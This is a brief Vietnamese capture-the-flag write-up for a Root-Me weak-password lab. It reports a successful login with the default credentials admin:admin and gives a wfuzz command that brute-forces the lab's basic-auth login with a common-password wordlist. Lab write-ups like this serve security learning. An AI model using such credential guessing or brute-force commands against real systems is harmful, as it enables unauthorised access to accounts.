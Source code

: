 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2949e78e-84e4-4c4b-8d0b-b7eaa4b94bcc)

Vì tên lab là mật khẩu yếu nên tôi thử với vài case cơ bản nhất . và trong lần thử đầu tiền với admin:admin =))) được luôn

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/094d5e13-2817-4a8b-bc61-4832d555df15)

Hoặc không thì có thể dùng wfuzz để brute force login form

```wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt --basic admin:FUZZ http://challenge01.root-me.org/web-serveur/ch3/```
